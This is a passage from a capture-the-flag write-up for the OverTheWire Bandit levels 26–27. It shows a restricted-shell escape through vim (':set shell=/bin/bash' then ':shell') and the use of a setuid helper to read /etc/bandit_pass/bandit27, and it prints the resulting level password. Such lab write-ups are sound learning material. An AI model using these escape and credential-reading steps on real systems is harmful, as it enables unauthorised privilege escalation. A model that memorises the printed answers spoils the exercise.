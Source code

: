 Now we have it opened in `vim` as user **bandit26**. From vim we can get a shell via the `:shell` command. To do that just hit **Esc** and then type `:shell`

```bash
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /
:shell
```

Now hit enter.

```bash
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
--More--(33%)
```

Wait... What? So that got us back to `more`... Oh right the shell was set to run `more` so we just need to change the `:shell` command in `vim`. We can do this by typing in command mode `:set shell=/bin/bash`.

```bash
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/
~                                                                                      
:set shell=/bin/bash
```

And now run the `:shell` command.

```bash
bandit26@bandit:~$ 
```

WE GOT A SHELL!!! Next challenge then.

## <a id="level-27"></a> [Level 27](http://overthewire.org/wargames/bandit/bandit27.html)

We will be using the shell established from the previous level. Let's check the current directory.

```bash
bandit26@bandit:~$ ls -la
total 36
drwxr-xr-x  3 root     root     4096 Oct 16  2018 .
drwxr-xr-x 41 root     root     4096 Oct 16  2018 ..
-rwsr-x---  1 bandit27 bandit26 7296 Oct 16  2018 bandit27-do
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r--r--  1 root     root      675 May 15  2017 .profile
drwxr-xr-x  2 root     root     4096 Oct 16  2018 .ssh
-rw-r-----  1 bandit26 bandit26  258 Oct 16  2018 text.txt
```

This brings us back to [level 20](#level-20) where we had a setuid binary. This is easy then, let's just **cat** the password file.

```bash
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
```
